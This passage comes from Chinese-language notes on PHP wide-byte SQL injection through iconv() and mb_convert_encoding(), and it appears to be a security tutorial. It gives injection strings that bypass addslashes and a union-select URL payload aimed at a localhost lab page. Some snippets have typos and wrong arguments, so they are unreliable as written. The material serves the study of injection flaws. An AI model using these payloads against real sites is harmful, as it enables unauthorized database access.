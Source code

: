 <img src=".\图片\Snipaste_2023-04-08_16-23-53.png" alt="Snipaste_2023-04-08_16-23-53" style="zoom:80%;" />



#### 3.敏感函数导致的宽字节注入

`iconv()`   `mb_convert_encodeing()`

```
$id = iconv('utf-8','gbk',$id)
$id = mb_convert_encoding('utf-8','gbk',$id)
如果存在这样的注入语句$id = admin' or 1=1--，那么就可以绕过addslashes注入。
原理和2相同
```

```
而如果反过来，也同样存在字节注入
$id = iconv('gbk',utf-8',$id)
$id = mb_convert_encoding('gbk','utf-8',$id)
只需要把注入语句改为$id = admin運' or 1=1--，原理同上
```



```http
http://127.0.0.1:8081/www.phpsec.com/sql/sql6.php?id=%E9%81%8B%27%20union%20select%201,2,database()%23
```
